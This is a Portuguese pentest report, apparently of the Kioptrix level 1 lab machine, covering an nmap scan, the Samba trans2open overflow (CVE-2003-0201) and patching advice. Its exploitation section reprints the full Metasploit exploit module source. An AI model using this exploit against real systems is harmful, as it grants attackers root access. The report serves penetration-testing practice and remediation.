



# Relatório de Pentest da empresa Kioptrix-level-1 ltda

## Introdução

Em vista dos perigos que rondam o mundo cibernético, empresas no mundo todo tem mudado a consciência e a forma de trabalhar, visando a segurança dos dados e integridade de seus serviços. Como hacker freelancer e profissional de Pentest, desejo que esses objetivos sejam alcançados. É por isso que em agosto de 2023 fui contratado para prestar serviços de Pentest para a empresa Kioptrix-level1 ltda. 

## Objetivo

O objetivo deste pentest, conforme poderá ser visto mais adiante neste relatório, é encontrar problemas relacionados à infraestrutura do domínio da empresa Kioptrix. Também, sugeri soluções que visam sanar os problemas encontrados.

## Escopo

Como escopo, foi definido que o Pentest seria do tipo **blackbox**, ou seja, apenas o ip do domínio da empresa seria previamente divulgado. A idéia é simular um ataque real, vindo de fora da rede interna da empresa.

# Sumario

O pentest resume-se em:

- encontrar serviços que podem conter falhas de segurança
- explorar as falhas nesses serviços e obter acesso remoto ao servidor
- escalar privilégios de usuário do servidor, para alcançar o admin do sistema "root"

## Recomendações

Recomendo que se atualize todos os serviços usados nesse domínio. E também que se crie regras para que se façam patchs de segurança com regularidade.

# Metodologias

A metodologia usada foi a Pte - Penetration Testing Execution Standard. Ela consiste nos seguintes passos:

1. Coleta de Informações
2. Enumeração de serviços
3. Exploração
4. Pós exploração

A seguir, vemos o resultado obtido após todos os testes realizados:

## Coleta de informações

Nessa fase, obtemos o máximo de informações possíveis para realizar um ataque. No entanto, visto ser um pentest blackbox, realizei o ataque tendo apenas o ip da empresa.

**IP da empresa**

10.0.2.18

## Enumeração de serviços

Nessa fase fiz uma varredura usando a ferramenta NMAP, muito usada para fazer varreduras de portas. Note que o serviço na porta 139 parece ser o mais vulnerável.




Endereços IP      | Portas Abertas
------------------|----------------------------------------
10.0.2.18         | **TCP**: 22,80,111,139,443,32768


## Exploração

Nessa fase, exploro as falhas de segurança nos serviços vulneráveis. 

**Vulnerabilidade:** Trans2Open Buffer Overflow 

**Explicação:**
O estouro de buffer na função call_trans2open em trans2.c para Samba 2.2.x antes de 2.2.8a, 2.0.10 e versões anteriores de 2.0.x, e Samba-TNG antes de 0.3.2, permite que invasores remotos executem códigos arbitrários.

**Solução:**
Atualizar o serviço SAMBA para as versões mais recentes.

**Risco:** ALTO

**Prova de conceito:**
Código fonte do exploit usado:

```perl
##
# This module requires Metasploit: https://metasploit.com/download
# Current source: https://github.com/rapid7/metasploit-framework
##

class MetasploitModule < Msf::Exploit::Remote
  Rank = GreatRanking

  include Msf::Exploit::Remote::SMB::Client
  include Msf::Exploit::Brute

  def initialize(info = {})
    super(update_info(info,
      'Name'           => 'Samba trans2open Overflow (Linux x86)',
      'Description'    => %q{
          This exploits the buffer overflow found in Samba versions
        2.2.0 to 2.2.8. This particular module is capable of
        exploiting the flaw on x86 Linux systems that do not
        have the noexec stack option set.

        NOTE: Some older versions of RedHat do not seem to be vulnerable
        since they apparently do not allow anonymous access to IPC.
      },
      'Author'         => [ 'hdm', 'jduck' ],
      'License'        => MSF_LICENSE,
      'References'     =>
        [
          [ 'CVE', '2003-0201' ],
          [ 'OSVDB', '4469' ],
          [ 'BID', '7294' ],
          [ 'URL', 'https://seclists.org/bugtraq/2003/Apr/103' ]
        ],
      'Privileged'     => true,
      'Payload'        =>
        {
          'Space'    => 1024,
          'BadChars' => "\x00",
          'MinNops'  => 512,
          'StackAdjustment' => -3500
        },
      'Platform'       => 'linux',
      'Targets'        =>
        [
          # tested OK - jjd:
          # RedHat 7.2 samba-2.2.1a-4 - 0xbffffafc
          # RedHat 9.0 samba-2.2.7a-7.9.0 - 0xbfffddfc
          [ 'Samba 2.2.x - Bruteforce',
            {
              'PtrToNonZero' => 0xbffffff4, # near the bottom of the stack
              'Offset'       => 1055,
              'Bruteforce'   =>
                {
                  'Start' => { 'Ret' => 0xbffffdfc },
                  'Stop'  => { 'Ret' => 0xbfa00000 },
                  'Step'  => 256
                }
            }
          ],
        ],
      'DefaultTarget'  => 0,
      'DisclosureDate' => '2003-04-07'
      ))

    register_options(
      [
        Opt::RPORT(139)
      ])

    deregister_options('SMB::ProtocolVersion')
  end

  def brute_exploit(addrs)

    curr_ret = addrs['Ret']
    begin
      print_status("Trying return address 0x%.8x..." %  curr_ret)

      vprint_status('Connect with SMB1 since it needs native_lm info')
      connect(versions: [1])
      smb_login

      if ! @checked_peerlm
        if smb_peer_lm !~ /samba/i
          fail_with(Failure::NoTarget, "This target is not a Samba server (#{smb_peer_lm}")
        end

        if smb_peer_lm =~ /Samba [34]\./i
          fail_with(Failure::NoTarget, "This target is not a vulnerable Samba server (#{smb_peer_lm})")
        end
      end

      @checked_peerlm = true


      # This value *must* be 1988 to allow findrecv shellcode to work
      # XXX: I'm not sure the above comment is true...
      pattern = rand_text_english(1988)

      # See the OSX and Solaris versions of this module for additional
      # information.

      # eip_off = 1071 - RH7.2 compiled with -ggdb instead of -O/-O2
      # (rpmbuild -bp ; edited/reran config.status ; make)
      eip_off = target['Offset']
      ptr_to_non_zero = target['PtrToNonZero']

      # Stuff the shellcode into the request
      pattern[0, payload.encoded.length] = payload.encoded

      # We want test true here, so we overwrite conn with a pointer
      # to something non-zero.
      #
      # 222       if (IS_IPC(conn)) {
      # 223          return(ERROR(ERRSRV,ERRaccess));
      # 224       }
      pattern[eip_off + 4, 4] = [ptr_to_non_zero - 0x30].pack('V')

      # We want to avoid crashing on the following two derefences.
      #
      # 116     int error_packet(char *inbuf,char *outbuf,int error_class,uint32 error_code,int line)
      # 117     {
      # 118       int outsize = set_message(outbuf,0,0,True);
      # 119       int cmd = CVAL(inbuf,smb_com);
      pattern[eip_off + 8, 4] = [ptr_to_non_zero - 0x08].pack('V')
      pattern[eip_off + 12, 4] = [ptr_to_non_zero - 0x24].pack('V')

      # This stream covers the framepointer and the return address
      #pattern[1199, 400] = [curr_ret].pack('N') * 100
      pattern[eip_off, 4] = [curr_ret].pack('V')

      trans =
        "\x00\x04\x08\x20\xff\x53\x4d\x42\x32\x00\x00\x00\x00\x00\x00\x00"+
        "\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x01\x00\x00\x00"+
        "\x64\x00\x00\x00\x00\xd0\x07\x0c\x00\xd0\x07\x0c\x00\x00\x00\x00"+
        "\x00\x00\x00\x00\x00\x00\x00\xd0\x07\x43\x00\x0c\x00\x14\x08\x01"+
        "\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00"+
        "\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x90"+
        pattern

      # puts "press any key"; $stdin.gets

      sock.put(trans)
      handler

    rescue ::EOFError
    rescue ::Rex::Proto::SMB::Exceptions::LoginError, ::Interrupt, ::RuntimeError
      raise $!
    rescue ::Exception => e
      print_error("#{rhost} #{e}")
    end

    handler
    disconnect

  end
end


```
Na gravura a seguir pode-se ver onde encontrar o modulo no Metasploit Framework



Na gravura a seguir pode-se ver como usar a ferramenta para explorar a falha e obter acesso root logo de primeira.




## Pós exploração

Não foi necessário nenhum passo adicional, visto já obter acesso root já na exploração.

## Limpando a casa

Após todos os testes, a senha do root foi alterada pelo sysadmin, os logs foram apagados e vestigios da invasão deletados.

# Considerações finais

Após fazer esse primeiro Pentest, recomendo que se crie uma política de atualizações regulares. Programas muito obsoletos possuem exploits públicos, que podem facilmente ser usados por qualquer um com o conhecimento básico na área de segurança cibernética. Espero que essa recomendação ajude a empresa Kioptrix a criar um ambiente seguro, não só para seus funcionários, mas também para seus clientes.

**Pr3ach3r**

pr3ach3r@mail.com
